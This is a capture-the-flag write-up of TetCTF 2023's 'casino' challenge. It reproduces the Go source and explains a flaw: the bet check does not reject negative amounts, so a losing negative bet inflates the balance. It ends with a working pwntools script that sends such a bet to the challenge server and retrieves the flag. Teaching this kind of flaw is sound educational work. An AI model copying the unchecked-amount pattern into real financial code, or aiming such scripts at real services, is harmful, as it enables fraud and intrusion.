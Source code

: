 +++
title = "Currently reading"
date = "2023-06-01"
author = "pwnstar"
authorTwitter = "pwn0graphy"
tags = ["CTF", "security", "Cryptography", "Golang", "Python", "challenge"]
description = "An easy ‘crypto’ challenge where we can trick a casino into adding to our balance by betting a negative amount of money"
+++

# Overview

`casino` was an easy 'crypto' challenge from TetCTF 2023, written by `ndh`.
The description is as follows:
> Not really crypto...

The idea of the challenge is to beat a casino and get enough money that your balance as bytes is longer (or equal to) the length of the flag. The challenge is written in `go`, the source is pasted below.

{{< code language="go" title="main.go" id="1" expand="Show" collapse="Hide" isCollapsed="true" >}}
package main

import (
	"bufio"
	"encoding/json"
	"fmt"
	"log"
	"math/big"
	"os"
)

type Request struct {
	Recipient string `json:"recipient"`
	Command   string `json:"command"`

	// | recipient  | command              | username | amount | n | balance | proof_data |
	// |------------|----------------------|----------|--------|---|---------|------------|
	// | FlagSeller | PrintFlag            |    x     |        |   |    x    |     x      |
	// | Casino     | Register             |    x     |        |   |         |            |
	// | Casino     | Bet                  |    x     |   x    | x |         |            |
	// | Casino     | ShowBalanceWithProof |    x     |        |   |         |            |

	Username  string   `json:"username"`
	Amount    *big.Int `json:"amount"`
	N         int      `json:"n"`
	Balance   *big.Int `json:"balance"`
	ProofData []byte   `json:"proof_data"`
}

func main() {
	flag, err := os.ReadFile("flag")
	if err != nil {
		log.Fatal(err)
	}
	casino := NewCasino()
	flagSeller := NewFlagSeller(casino.RetrieveRootHash, string(flag))

	var request Request
	reader := bufio.NewReader(os.Stdin)
	for {
		line, err := reader.ReadBytes('\n')
		if err != nil {
			return
		}
		if err := json.Unmarshal(line, &request); err != nil {
			fmt.Printf("Cannot read request: %s\n", err)
			continue
		}
		switch request.Recipient {
		case "Casino":
			switch request.Command {
			case "Register":
				if err := casino.Register(request.Username); err != nil {
					fmt.Printf("An error occured: %s\n", err)
					continue
				}
			case "Bet":
				if err := casino.Bet(request.Username, request.Amount, request.N); err != nil {
					fmt.Printf("An error occured: %s\n", err)
					continue
				}
			case "ShowBalanceWithProof":
				if err := casino.ShowBalanceWithProof(request.Username); err != nil {
					fmt.Printf("An error occured: %s\n", err)
					continue
				}
			default:
				fmt.Printf("Unknown command: %s\n", request.Command)
				continue
			}
		case "FlagSeller":
			switch request.Command {
			case "PrintFlag":
				if err := flagSeller.PrintFlag(request.Username, request.Balance, request.ProofData); err != nil {
					fmt.Printf("An error occured: %s\n", err)
					continue
				}
			default:
				fmt.Printf("Unknown command: %s\n", request.Command)
				continue
			}

		default:
			fmt.Printf("Unknown recipient: %s\n", request.Recipient)
			continue
		}
	}
}
{{< /code >}}

{{< code language="go" title="casino.go" id="2" expand="Show" collapse="Hide" isCollapsed="true" >}}
package main

import (
	cryptorand "crypto/rand"
	"encoding/base64"
	"encoding/binary"
	"errors"
	"fmt"
	"github.com/cosmos/iavl"
	db "github.com/tendermint/tm-db"
	"log"
	"math/big"
	"math/rand"
)

type Casino struct {
	tree        *iavl.MutableTree
	numAccounts int
}

func NewCasino() *Casino {
	tree, err := iavl.NewMutableTree(db.NewMemDB(), 128, true)
	if err != nil {
		log.Fatal(err)
	}
	tmp := make([]byte, 8)
	if _, err = cryptorand.Read(tmp); err != nil {
		log.Fatal(err)
	}
	rand.Seed(int64(binary.LittleEndian.Uint64(tmp)))
	return &Casino{
		tree:        tree,
		numAccounts: 0,
	}
}

func (c *Casino) getBalance(username string) (*big.Int, error) {
	value, err := c.tree.Get([]byte(username))
	if err != nil {
		log.Fatal(err)
	}
	if value == nil {
		return nil, errors.New("player-not-exist")
	}
	return new(big.Int).SetBytes(value), nil
}

func (c *Casino) setBalance(username string, value *big.Int) {
	_, err := c.tree.Set([]byte(username), value.Bytes())
	if err != nil {
		log.Fatal(err)
	}
	_, _, err = c.tree.SaveVersion()
	if err != nil {
		log.Fatal(err)
	}
}

const MaxPlayers = 100
const InitialBalance = 2023

func (c *Casino) Register(username string) error {
	exist, err := c.tree.Has([]byte(username))
	if err != nil {
		log.Fatal(err)
	}
	if exist {
		return errors.New("player-exists")
	}
	if c.numAccounts >= MaxPlayers {
		return errors.New("max-players")
	}
	c.numAccounts += 1
	c.setBalance(username, big.NewInt(InitialBalance))
	fmt.Printf("Added user: %s.\n", username)
	return nil
}

func (c *Casino) Bet(username string, amount *big.Int, n int) error {
	currentBalance, err := c.getBalance(username)
	if err != nil {
		return err
	}
	if currentBalance.Cmp(amount) < 0 {
		return errors.New("insufficient-balance")
	}
	r := rand.Intn(2023)
	if r == n { // correct guess
		reward := new(big.Int).Mul(amount, big.NewInt(2022))
		currentBalance.Add(currentBalance, reward)
		c.setBalance(username, currentBalance)
		fmt.Printf("YOU WIN! Current balance: %d (+%d).\n", currentBalance, reward)
	} else {
		currentBalance.Sub(currentBalance, amount)
		c.setBalance(username, currentBalance)
		fmt.Printf("YOU LOSE (%d != %d)! Current balance: %d (-%d).\n", r, n, currentBalance, amount)
	}
	return nil
}

func (c *Casino) ShowBalanceWithProof(username string) error {
	value, proof, err := c.tree.GetWithProof([]byte(username))
	if err != nil {
		log.Fatal(err)
	}
	if value == nil {
		return errors.New("player-not-exist")
	}
	proofData, err := proof.ToProto().Marshal()
	if err != nil {
		log.Fatal(err)
	}
	fmt.Printf("%d, %s\n", new(big.Int).SetBytes(value), base64.StdEncoding.EncodeToString(proofData))
	return nil
}

func (c *Casino) RetrieveRootHash() []byte {
	result, err := c.tree.Hash()
	if err != nil {
		log.Fatal(err)
	}
	return result
}
{{< /code >}}

{{< code language="go" title="flag_seller.go" id="3" expand="Show" collapse="Hide" isCollapsed="true" >}}
package main

import (
	"fmt"
	"github.com/cosmos/iavl"
	iavlproto "github.com/cosmos/iavl/proto"
	"github.com/golang/protobuf/proto"
	"math/big"
)

type FlagSeller struct {
	dbRootRetriever func() []byte
	flag            string
}

func NewFlagSeller(dbRootRetriever func() []byte, flag string) *FlagSeller {
	return &FlagSeller{
		dbRootRetriever: dbRootRetriever,
		flag:            flag,
	}
}

func (fs *FlagSeller) PrintFlag(usename string, balance *big.Int, proofData []byte) error {
	var pbProof iavlproto.RangeProof
	if err := proto.Unmarshal(proofData, &pbProof); err != nil {
		return fmt.Errorf("bad proof format: %w", err)
	}
	proof, err := iavl.RangeProofFromProto(&pbProof)
	if err != nil {
		return fmt.Errorf("bad proof format: %w", err)
	}
	if err := proof.Verify(fs.dbRootRetriever()); err != nil {
		return fmt.Errorf("proof verification failed: %w", err)
	}
	if err := proof.VerifyItem([]byte(usename), balance.Bytes()); err != nil {
		return fmt.Errorf("proof verification failed: %w", err)
	}

	l := balance.BitLen() / 8
	dot3 := "..."
	if l >= len(fs.flag) {
		l = len(fs.flag)
		dot3 = ""
	}
	fmt.Printf("Your flag is: %s%s\n", fs.flag[:l], dot3)
	return nil
}
{{< /code >}}

I admit, I actually couldn't spot the bug here until `casino2` was released. When the sequel dropped, I diffed the two challenges to find one small difference:

```diff
diff casino/casino/casino.go casino2/casino.go
83a84
>       amount.Abs(amount)
```

In the second challenge, the absolute value function is used on the amount we bet, meaning the amount always will be positive, however, this is omitted in the first challenge. There is a check to make sure our balance is greater than the amount we bet, to stop us from betting too much...
```go
if currentBalance.Cmp(amount) < 0 {
		return errors.New("insufficient-balance")
	}
```
...but this check does not prevent us from providing a negative bet amount, which is of course less than our current balance! If we specify a negative amount and then lose, the program will subtract a negative number from our balance, which will actually add to the balance. We can specify a hugely negative number, verify our balance, and then request the flag to solve the challenge. My solution in python is below.

{{< code language="python" title="x.py" id="4" expand="Show" collapse="Hide" isCollapsed="false" >}}
from pwn import *
from json import loads, dumps

r = remote("192.53.115.129",31338)
r.sendline(dumps({"recipient":"Casino","command":"Register","username":"toast"}).encode('utf-8'))
r.sendline(dumps({"recipient":"Casino","command":"Bet","username":"toast","amount":-999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999,"n":1}).encode('utf-8'))
r.sendline(dumps({"recipient":"Casino","command":"ShowBalanceWithProof","username":"toast"}).encode('utf-8'))
r.recvline()
r.recvline()
data = r.recvline().decode()
balance = int(data.split(",")[0])
proof = data.split(",")[1].strip()
log.success(f"Balance: {balance}")
r.sendline(dumps({"recipient":"FlagSeller","command":"PrintFlag","username":"toast","balance":balance,"proof_data":proof}).encode('utf-8'))
r.interactive()
{{< /code >}}